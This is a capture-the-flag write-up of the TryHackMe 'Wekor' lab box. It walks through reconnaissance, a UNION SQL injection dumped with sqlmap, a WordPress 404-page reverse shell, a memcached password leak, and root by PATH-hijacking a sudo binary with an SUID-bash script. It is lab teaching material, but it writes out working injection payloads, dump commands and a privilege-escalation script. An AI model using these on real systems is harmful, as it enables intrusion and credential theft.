This box is rated medium difficulty on THM. It involves us discovering an eCommerce website that's vulnerable to SQL injection and a subdomain hosting Wordpress. Dumping the SQL database gives us credentials to login to WP as Admin and grab a shell by updating the 404 page's code. Once on the box, an internal service that caches data in memory leaks a user's password and reverse engineering a binary that they have access to allows us to execute commands by means of a malicious script.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.64.157.21 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-02 19:46 CST
Nmap scan report for 10.64.157.21
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
|_  256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.41 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

The box's scope information also provides us with a domain of `wekor.thm`, so I'll add that to my `/etc/hosts` file. Not a whole lot we can do with that version of OpenSSH besides potential username enumeration, so I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the website.

Checking out the landing page only shows a welcome message for new visitors.



Our scan's default scripts reveal that their `robots.txt` page gives us a few directories to snoop around at. 

```
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```

Most of these had little to nothing in them except for the `/comingreallysoon` endpoint which disclosed that their new IT site was hosted at `/it-next`.



A quick look around showed that this was just a static webpage with some filler content to make it look busier. My scans also failed to discover things like a login page or any crazy vulnerabilities that stuck out to me. I mark this as a dead end for now, but may revisit it later if other routes don't pan out.


On the other hand, my Ffuf scans found a subdomain for the server at `site.wekor.thm`. I'll add that to my `/etc/hosts` file as well and start enumeration there.

```
$ ffuf -u http://wekor.thm -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.wekor.thm" --fs 23

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://wekor.thm
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.wekor.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 23
________________________________________________

site                    [Status: 200, Size: 143, Words: 27, Lines: 6, Duration: 43ms]
:: Progress: [114442/114442] :: Job [1/1] :: 921 req/sec :: Duration: [0:02:09] :: Errors: 0 ::
```

This once again just displayed a message saying that the site was still under development and to come back in a couple weeks. This made me think that perhaps the web admin just had the site hidden for now and would move it to be indexed in the coming days. We can also gather a username as Jim left his name with the message.



A quick Gobuster scan rewards me with the `/wordpress` page that wasn't totally fledged out, but still functioned at a basic level. 



As always, whenever I come across a site running Wordpress, I break out WPScan to find vulnerable plugins, themes, and users listed. 

```
$ wpscan --url http://site.wekor.thm/wordpress/ -e vp,vt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://site.wekor.thm/wordpress/ [10.64.157.21]
[+] Started: Mon Mar  2 20:11:04 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://site.wekor.thm/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://site.wekor.thm/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://site.wekor.thm/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://site.wekor.thm/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6 identified (Insecure, released on 2020-12-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://site.wekor.thm/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.6</generator>
 |  - http://site.wekor.thm/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/style.css?ver=1.0
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:06 <=================================> (652 / 652) 100.00% Time: 00:00:06
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://site.wekor.thm/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Mar  2 20:11:15 2026
[+] Requests Done: 722
[+] Cached Requests: 8
[+] Data Sent: 202.391 KB
[+] Data Received: 23.374 MB
[+] Memory used: 285.18 MB
[+] Elapsed time: 00:00:11
```

This doesn't show any vulnerable installations on the page, but also shows that there's only one user named Admin on the site. Going to the wp-admin login panel allows us to enumerate users via verbose errors, however Jim isn't registered on Wordpress.

## SQL Injection
So as of now, we only a WP site that we need credentials for and another seemingly static site that hosts a storefront for all things IT related. A bit more enumeration on the `/it-next` page reveals something interesting. When checking out with certain things in our cart, it will display the status of such items and whether they're in stock or not.



Typically, pages will do this by querying a database to find out how many items are listed in the table. That tells me that there's most likely an internal MariaDB or MySQL server that hosts this information.

If we can find somewhere on the site that is vulnerable to SQL injection, then we may just be able to dump user credentials in another table and get a login for the Wordpress page. Simply scrolling down a bit shows a checkout coupon field that returns an error in our SQL syntax when supplied with a single quote.



Since it's reflected to the page, we should be able to dump the database too. I'll start by finding out how many columns there are so we're not getting an error every time.

```
' UNION SELECT 1,2,3-- -
```



Looks like three is the magic number, plus all columns are displayed, so we can use any of them to return SQL info. For the sake of time, I'll capture a request in Burp Suite and send it over to SQLMap. If you'd like to do this step manually, I will provide a few great articles to go about doing so.

[PayloadsAllTheThings MySQL Injection cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

[SQLi Database Enumeration](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/)

```
sqlmap -r itnext.req --batch --dbs
```



Lucky for us, that returns a database for the wordpress site. Now let's list all tables within it in hopes to gather credentials for the admin or any other registered users that may be of use.

```
sqlmap -r itnext.req --batch -D wordpress --tables
```



## Foothold via WP 404.php
The wp_users table should contain all information about listed usernames, emails, and either plaintext or hashed passwords for that website. Let's dump it and see what works.

```
sqlmap -r itnext.req --batch -D wordpress -T wp_users --dump
```



That returns four hashes for users Admin, Jeffrey, Yura, and Eagle. Sending those over to Hashcat or JohnTheRipper rewards us with the plaintext variants for all users except the Admin and discloses that the site stores passwords as phpass hashes.

Signing in as all users shows that Yura's account is also an administrator on the site. At this point, I'll be changing the 404 page's PHP code to get a reverse shell on the box as the web server. If you're unfamiliar with this attack angle, [this article](https://medium.com/@akshadjoshi/from-wordpress-to-reverse-shell-3857ee1f4896) explains it a bit further.



## Privilege Escalation
With a basic foothold on the box, we can start internal enumeration to escalate privileges and pivot to other users. Whenever landing on a box as `www-data`, we're usually limited to few things, so I like checking for hardcoded credentials in config files, loosely secured backups, or dumping databases.

I found some MySQL credentials for the databases' root user, however dumping it failed to give us anything we didn't already know. The only other user on the system was named Orka, but deep enumeration showed that we didn't have access to read/write to any of their files. Password reuse from the WP site also failed to swap users, so I turned to enumerating the internal services.



I'll upload Chisel to port forward this internal service to my local machine. Note that the box is built on x86 architecture, so keep that in mind when downloading the correct version. Upon setting it up and using Netcat to connect, I realized that it wasn't even a web server and my brain was on autopilot (whoops). 

### Memory Cache Dump
A quick google search revealed some information on the default TCP port 11211 - Memcached is a high-performance, open-source distributed memory object caching system. It is commonly used to speed up dynamic web applications by caching data in RAM. Alright, maybe we can grab some sensitive info if we're allowed to dump the memory cache as our current user. 



Using a script named memchaced-tool under `/usr/share/memcached/scripts` on the localhost port dumps the password for Orka and we can use that to switch users.

### Bitcoin Binary RE
At this point we can grab the user flag under their home directory and look at routes to root. Listing Sudo privileges shows that we are allowed to run the bitcoin binary as root. There's also a python script owned by root in the same directory that executes the following code:

```
import time
import socket
import sys
import os

result = sys.argv[1]

print "Saving " + result + " BitCoin(s) For Later Use "

test = raw_input("Do you want to make a transfer? Y/N : ")

if test == "Y":
 try:
  print "Transfering " + result + " BitCoin(s) "
  s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect = s.connect(("127.0.0.1",3010))
  s.send("Transfer : " + result + "To https://transfer.bitcoins.com")
  time.sleep(2.5)
  print ("Transfer Completed Successfully...")
  time.sleep(1)
  s.close()
 except:
  print("Error!")
else:
 print("Quitting...")
 time.sleep(1)
```

This looks like a simple way to provide the amount of bitcoins we want to transfer and sends it to localhost on port 3010. We can't write to it and I'm not sure if a cronjob is either which means we won't be able to do anything with this directly.

A test run using the bitcoin binary shows that we need to provide a password in order to execute it; Running traces  doesn't show any crazy outbound calls, so I'll transfer it to my attacking machine in order to decompile it with Ghidra.

This 32bit ELF performs a simple task, It will prompt the user for a password (which is password) to grant them access and then it will use the transfer script in the same folder. The code below is a copy of the binary's main function for reference.

```
undefined4 main(void)

{
  int iVar1;
  ushort **ppuVar2;
  int in_GS_OFFSET;
  char local_88;
  char local_87 [15];
  char local_78 [100];
  int local_14;
  undefined1 *local_c;

  local_c = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);                                                                                                    
  printf("Enter the password : ");
  gets(local_87);
  iVar1 = strcmp(local_87,"password");
  if (iVar1 == 0) {
    puts("Access Granted...");
    sleep(1);
    puts("\t\t\tUser Manual:\t\t\t");
    puts("Maximum Amount Of BitCoins Possible To Transfer at a time : 9 ");
    puts("Amounts with more than one number will be stripped off! ");
    puts("And Lastly, be careful, everything is logged :) ");
    printf("Amount Of BitCoins : ");
    __isoc99_scanf(&DAT_0804893b,&local_88);
    ppuVar2 = __ctype_b_loc();
    if (((*ppuVar2)[local_88] & 0x800) == 0) {
      puts("\n Sorry, This is not a valid amount! ");
    }
    else {
      sprintf(local_78,"python /home/Orka/Desktop/transfer.py %c",(int)local_88);
      system(local_78);
    }
  }
  else {
    puts("Access Denied... ");
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The main part we should focus on here is the fact that when it makes a call to the `transfer.py` script, it fails to specify a full path for Python. This potentially means that we can host a malicious binary through path injection or if we have write permissions to where they are hosted.



By listing the directory permissions under `/usr`, I discover that Orka has the capability to write to both bin and sbin. This makes it a bit easier as we won't have to add a working directory to our path in order for it to find the fake Python script.



Since the original Python is located in `/usr/bin` and `/usr/sbin` comes before it in the `$PATH`, I'll write to sbin so that we still have access to use it later on. Now we simply need to create a bash script for the binary to run, which can be anything, but I'll create a clone of bash in the `/tmp` directory and give it an SUID bit.

```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

After making sure that it's executable, we can simply run the binary with Sudo and use the newly cloned Bash to spawn a root shell. Grabbing the final flag under the root directory completes this challenge.



That's all y'all, this box was great in my opinion. I liked the heavy focus on enumeration and the privesc techniques were good practice. I hope this was helpful to anyone following along or stuck and happy hacking!
